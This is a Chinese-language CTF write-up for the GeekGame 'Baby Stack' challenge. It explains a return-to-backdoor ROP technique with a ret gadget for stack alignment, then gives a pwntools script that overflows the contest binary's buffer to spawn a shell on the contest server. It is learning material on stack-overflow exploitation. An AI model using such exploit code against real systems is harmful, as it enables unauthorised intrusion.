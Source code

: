 

## Baby Stack

保姆级的ROP教程。

第一题里有个backdoor，调用就可以获得shell。地址固定0x4011b6，算好返回地址的offset一路写过去。不过注意需要用一个单独的ret来配平一下栈顶的对齐。

![image-20231021124909139](writeup_gzz.assets/image-20231021124909139.png)

```python
import os
from pwn import *

libc_binary = ELF('./libc.so.6', checksec=False)
ld_binary = ELF('./ld-linux-x86-64.so.2', checksec=False)
challenge1_binary = ELF('./challenge1')

# align the rsp to avoid error: https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul
addr_ret = 0x40101a
addr_backdoor = 0x4011b6

p = remote('prob10.geekgame.pku.edu.cn', 10010)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

p.recvuntil(b'input the size of your exploitation string:(less than 100 chars with the ending \\n or EOF included!)\n')

stack_offset = 0x00007ffc786d5138 - 0x00007ffc786d50c0

p.send(b'0\n')

p.recvuntil(b'please input your string:\n')
p.send(b'z' * stack_offset + p64(addr_ret) + p64(addr_backdoor) + b'haha\n')

p.interactive()
```
